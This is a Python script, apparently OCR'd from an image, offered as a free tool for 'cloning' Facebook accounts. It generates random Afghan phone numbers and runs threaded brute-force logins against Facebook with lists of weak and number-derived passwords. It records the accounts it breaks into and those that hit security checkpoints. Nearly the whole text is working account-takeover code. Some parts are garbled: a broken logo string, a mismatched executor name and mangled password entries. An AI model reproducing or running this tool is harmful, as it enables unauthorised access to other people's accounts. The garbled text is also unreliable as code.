 Enter#WRITTEN Muhammad 
#------------ import-----------#
import os
from os import system as sy
import random
import string
from concurrent.futures import ThreadPoolExecutor as tred
import requests
import re
import sys
#------------ color-----------#
R='\033[31m' #RED
G='\033[32m' #GREEN
Y='\033[33m' #YELLOW
B='\033[34m'#BLUE
P='\033[35m'#PURPLE
W='\033[37m'#WHITE

oks=[]
cps=[]
loop=0
#------------logo------------#
logo=('''\
╔╦╗  ╔═╗  ╔═╗
║║║  ║   ╦  ╠═╣
╩   ╩  ╚═╝  ╩   ╩
"')
#-----------clear------------#
def clear():
    sy('clear')
    print(logo)
    print(40*'-')
    print(F'[{G}+{R}]FACEBOOK : Muhammad Gul Azizi ')
    print(F'[{G}+{B}]AUTHOR   : Muhammad ')
    print(F'[{G}+{P}]TOOLS    : FREE{W}')
    print(40*'-')
#----------Main--------#
def Main():
    clear()
    print(F'[{R}1{G}] RANDOM NUMBER CLONE')
    print(F'[{R}2{G}] FOLLOW MY ACCOUNT')
    print(F'[{R}0{G}] EXIT')
    print(40*'-')
    user =input(F'[{G}??{R}]ENTER CHOICE >> ')
    if user in ['01','1']:
        AFG()
    elif user in ['02','2']:
        sy('xdg-open https://www.facebook.com/M.GUL.AZIZI.FARASHGHANI.246')
    elif user in ['00','0']:
        exit('THANKS FOR USE MY SCRIPT')
    else:
        exit()
#----------AFG_Clone-------#
def AFG():
    user=[]
    print(' EXAMPLE SIM COD : 079~070~077~078')
    cod=input(' ENTER SIM COD : ')
    print(40*'-')
    print(' EXAMPLE LIMIT : [2000] [5000] [10000]')
    try:
        limit=int(input(' ENTER LIMIT : '))
    except ValueError:
        limit=50000
    for nmbr in range(limit):
        nmp=''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with tred(max_workers=30) as Muhammad:
        tl=str(len(user))
        clear()
        print('TOTAL LIMIT : '+tl)
        print('SIM COD : '+cod)
        print('USE AIRPLANE FOR SPEED UP')
        print(40*'-')
        for psx in user:
            ids=cod+psx
            passlist=[psx,ids,ids[:7],ids[:6],ids[:5],'лБлВлГлДлЕлЖ','лБлАлАлВлАлА','лЕлАлАлЕлАлА','лБлАлАлАлБлАлАлА','лБлАлАлАлВлАлАлА','500500','10001000','10002000','afghan1234','afghan123','afghan12345','afghanistan','Afghanistan','Afghan123','Afghan1234']
            king.submit(M1,ids,passlist)
    print(40*'-')
    print(' THE PROCESS HAS COMPLETED')
    print('TOTAL OK ID'+str(oks))
    print('TOTAL CP ID'+str(cps))
    input(' PRESS ENTER TO BACK : ')
    Main()
#______M1________#
def M1(ids,passlist):
    global oks
    global cps
    global loop
    sys.stdout.write(F'\r\r{P}[Muhammad] %s|{G}OK:-%s'%(loop,len(oks))),sys.stdout.flush()
    try:
        for pas in passlist:
            session=requests.Session()
            free_fb=session.get('https://free.facebook.com').text
            datax={
                "lsd":re.search('name="lsd" value="(.*?)"',str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"',str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"',str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"',str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":ids,
            "pass":pas,
            "login":"Log In"}
            header={'authority': 'web.facebook.com', 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7', 'accept-language': 'en-US,en;q=0.9,bn-BD;q=0.8,bn;q=0.7,sl-SI;q=0.6,sl;q=0.5', 'cache-control': 'max-age=0', 'sec-ch-prefers-color-scheme': 'light', 'sec-ch-ua': '"Not:A-Brand";v="99", "Chromium";v="112"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform': '"Linux"', 'sec-fetch-dest': 'document', 'sec-fetch-mode': 'navigate', 'sec-fetch-site': 'none', 'sec-fetch-user': '?1', 'upgrade-insecure-requests': '1', 'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36', 'viewport-width': '980'}
            reqx=session.post('https://web.facebook.com/login/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNjg2MDMwNzQ4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D',data=datax,headers=header).text
            req=session.cookies.get_dict().keys()
            if 'c_user' in req:
                print(F'\r\r {G}Muhammad-OK '+ids+' | '+pas+'{W}')
                oks.append(ids)
                break
            elif 'checkpoint' in req:
                print(F'\r\r {R}Muhammad-CP '+ids+' | '+pas+'{W}')
                cps.append(ids)
                break
            else:
                continue
        loop+=1
    except:
        pass
#----------end----------#
Main()
#BOY№
